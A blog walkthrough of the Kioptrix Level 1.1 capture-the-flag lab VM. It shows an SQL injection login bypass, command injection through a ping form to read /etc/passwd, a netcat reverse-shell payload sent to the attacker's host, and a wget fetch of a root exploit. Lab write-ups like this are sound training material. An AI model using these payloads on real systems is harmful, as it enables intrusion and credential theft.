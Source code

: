 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. The attacker finds a login form when he lands on the home page. It appears to be used for administrative purposes. 

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

Surprisingly, he was able to display the contents of /etc/passwd for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He decided to see if he could obtain a shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

He found a local root exploit but the attacker still needed to download the exploit remotely in Kioptrix. He set up a python simple server to host the exploit.

![Image description](/images/kioptrix1.2.13.png)

Once the exploit was hosted, the attacker simply wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

The attacker was then able to  compiled the exploit and run it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

